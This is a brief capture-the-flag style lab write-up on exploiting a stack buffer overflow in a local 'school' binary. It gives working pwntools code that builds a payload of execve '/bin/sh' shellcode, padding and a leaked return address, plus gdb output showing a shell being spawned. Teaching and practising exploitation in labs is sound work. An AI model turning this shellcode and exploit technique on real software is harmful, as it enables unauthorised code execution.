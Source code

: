 
# Building Payload

Payload made up of
```
[Shellcode] + [Padding] + [Addr]
```

Build Payload:
```python
def buildPld(a):
	code = b'\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05'
	p = 40 - len(code)
	pad = b'A'*p
	addr = p64(int(a, 16))
	return code + pad + addr
```

Shellcode is the hex-encoded shellcode

Padding fills so that whole buffer is 40 chars


Code to get leaked address:
```python
def getAddr(p):
	p.recvuntil("at: ")
	a = cleanLine(p.recvuntil("."))
	ad =  re.split("\.", a)
	return ad[0]
```

Code for testing:
```python
def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./school -q')
	p.sendline("break *0x0000000000400681")
	p.sendline("r")
	addr = getAddr(p)
	p.recvuntil("directions:")
	p.sendline(buildPld(addr))
	p.interactive()
```

Can see the code we injected after the return!
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn.py
[*] Switching to interactive mode
Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA\xd0\xdd\xff\xff\xff\x7f

Breakpoint 1, 0x0000000000400681 in main ()
 →   0x400681 <main+80>        ret    
   ↳  0x7fffffffddd0                  xor    rsi, rsi
      0x7fffffffddd3                  push   rsi
      0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
      0x7fffffffddde                  push   rdi
      0x7fffffffdddf                  push   rsp
      0x7fffffffdde0                  pop    rdi
```
And it works when we continue!
```
gef➤  $ c
Continuing.
process 175805 is executing new program: /usr/bin/dash
```

